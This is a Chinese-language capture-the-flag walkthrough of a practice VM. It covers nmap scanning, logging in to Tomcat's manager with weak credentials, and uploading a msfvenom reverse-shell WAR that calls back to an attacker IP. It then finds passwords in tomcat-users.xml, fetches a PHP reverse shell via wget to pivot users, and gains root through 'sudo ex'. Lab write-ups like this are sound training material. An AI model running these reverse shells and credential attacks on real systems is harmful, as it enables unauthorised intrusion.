

## 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/K2MFXVCBYR#6tPKBbXzpqwF)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```


创建文件夹用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.1.0/24
```


确定靶机ip：

192.168.1.14


#### 端口扫描

```
nmap -sT -p- --min-rate 10000 192.168.1.14 -oA ./nmapscan/ports
```


开放了：

- 22 ssh服务

- 80 http服务

- 8080 http服务

  

#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sT -sV -sC -O -p 22,80,8080 192.168.1.14 -oA ./nmapscan/detail
```


分析：

- 22 ssh OpenSSH 8.4p1
- 80 http Apache httpd 2.4.56
- 8080 http Tomcat


### 80端口

#### 访问192.168.1.14


apache主页

查看源码无内容


#### 目录扫描

```
dirsearch -u http://192.168.1.14
```


无结果，gobuster跑了一遍也是没结果


### 8080端口

#### 访问192.168.1.14:8080


tomcat主页


#### 提示可以访问Manager Web和host-manager web


需要密码


#### 尝试tomcat弱口令密码

```
tomcat:tomcat
```

登录失败，但是出现跳转


#### 存在manager-gui用户


#### 得到一个账号和密码

```
tomcat:s3cret
```


#### 成功登录


#### msfvenom生成war包

```
msfvenom -p java/jsp_shell_reverse_tcp Lhost=192.168.1.3 lport=283 -f war -o ra1n3.war
```


#### 上传war包


成功上传


#### msfconsole开启监听

```
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost 192.168.1.3
set lport 283
run
```


触发war包（点击）


成功弹回shell


## 提权

### script转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```


### 查看用户信息

```
cat /etc/passwd
```


存在：

- sa
- toor


### 在conf目录下发现sa用户的密码

```
ls -al
cd conf 
ls -al
cat tomcat-users.xml
```


```
sa:salala!!
```


### ssh登录

```
ssh sa@192.168.1.14
```


### 执行sudo -l

```
sudo -l
```


无信息


### suid查找

```
find / -perm -4000 2>/dev/null
```


无信息


### 进入toor的家目录

```
cd ..
ls -al
cd toor
```



失败


### 查看apache进程

```
ps -ef | grep apache
```


属于toor用户

也就是说，如果我们能从80端口拿到一个反弹shell，也就相当于拿到了toor用户的shell


### 查看网站目录权限

```
cd /var/www/html
ls -al
```


可以写内容


### 本地开启http服务

```
python -m http.server
```


### 上传至目标主机

```
wget 192.168.1.3:8000/php-reverse-shell.php
```


### 本地开启监听

```
nc -lvp 2999
```


### 浏览器中触发该脚本


### 成功反弹shell


### 执行sudo -l

```
sudo -l
```


### ex提权

```
sudo ex
!/bin/sh
whoami
```


### 得到flag

```
cd /root
ls -al
cat root.txt
```


## 注意：

当我们进入/var/www/html上传弹shell脚本时，不能直接从攻击机的web服务器wget php脚本，因为它会先在攻击机的web服务器解析，此时我们如果触发该脚本拿到的不是toor用户的shell


如果先wget，再开启监听，当在浏览器触发该脚本时，会提示连接被拒绝


而如果先监听，再wget，则弹回的时攻击机的shell


而如果我们将php脚本改一下后缀名（如txt），然后在攻击机上wget后再改回来，那么就不会在本地解析，从而可以拿到toor用户的shell


